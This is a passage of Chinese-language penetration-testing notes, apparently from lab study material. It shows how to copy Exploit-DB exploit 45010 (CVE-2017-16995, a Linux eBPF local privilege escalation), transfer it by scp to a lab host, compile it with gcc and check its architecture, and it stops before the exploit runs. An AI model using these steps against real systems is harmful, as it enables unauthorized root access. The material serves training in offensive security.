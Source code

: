 #### 3. 編譯 Exploit
使用 gcc 來編譯 exploit\
編譯的環境架構需要與目標機器相同
```
┌──(chw㉿CHW)-[~]
└─$ cp /usr/share/exploitdb/exploits/linux/local/45010.c .

┌──(chw㉿CHW)-[~]
└─$ head 45010.c -n 20
/*
  Credit @bleidl, this is a slight modification to his original POC
  https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c

  For details on how the exploit works, please visit
  https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html

  Tested on Ubuntu 16.04 with the following Kernels
  4.4.0-31-generic
  4.4.0-62-generic
  4.4.0-81-generic
  4.4.0-116-generic
  4.8.0-58-generic
  4.10.0.42-generic
  4.13.0-21-generic

  Tested on Fedora 27
  4.13.9-300
  gcc cve-2017-16995.c -o cve-2017-16995
  internet@client:~/cve-2017-16995$ ./cve-2017-16995
```
```
┌──(chw㉿CHW)-[~]
└─$ mv 45010.c cve-2017-16995.c
                                                                                                        
┌──(chw㉿CHW)-[~]
└─$ scp cve-2017-16995.c joe@192.168.235.216:
joe@192.168.235.216's password: 
cve-2017-16995.c
```

要將 source code 編譯成可執行檔，我們只需要呼叫 gcc 並指定 C source code 和輸出檔名
```
joe@ubuntu-privesc:~$ gcc cve-2017-16995.c -o cve-2017-16995
joe@ubuntu-privesc:~$ ls
cve-2017-16995  cve-2017-16995.c
```

#### 4. 執行 Exploit
編譯後檢查 Linux ELF file architecture
```
joe@ubuntu-privesc:~$ file cve-2017-16995
cve-2017-16995: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=588d687459a0e60bc6cb984b5180ec8c3558dc33, not stripped
```
> x86-64
